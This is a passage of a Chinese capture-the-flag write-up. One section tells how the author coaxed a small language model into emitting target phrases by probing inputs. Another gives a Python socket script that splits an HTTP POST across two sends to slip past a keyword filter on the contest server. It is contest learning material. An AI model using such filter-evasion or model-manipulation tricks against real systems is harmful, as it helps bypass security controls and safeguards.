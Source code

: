 删掉前后文和各种提示符（怎么删？肉眼观测然后Ctrl+F替换啊嗯）。

然后`node flag.js`。

### 小型大语言模型星球

第一问尝试诱导各种类似与`do i am smart`之类，最后试得

![smart](image/2023-10-30%2012_40_28-Gradio.png)

第二问手工枚举得`x`+`accept`，得

![accepted](image/2023-10-30%2012_40_47-Gradio.png)

后面几个要懂AI什么做不出来啦。

### Komm, süsser Flagge

第一个检查`POST`整个字符串，那就把`HTTP Request`分两次发吧

```python
import socket
s = socket.socket()
s.connect(("202.38.93.111", 18080))
s.send(b"PO")
s.send(b'ST / HTTP/1.1\r\nHost: 202.38.93.111:18080 \
       \r\nContent-Length: 自己算\r\n \
       Content-Type: application/x-www-form-urlencoded\r\n\r\n你的token')
buffer = []
while True:
    # 每次最多接收1k字节:
    d = s.recv(1024)
    if d:
        buffer.append(d)
    else:
        break
data = b''.join(buffer)
```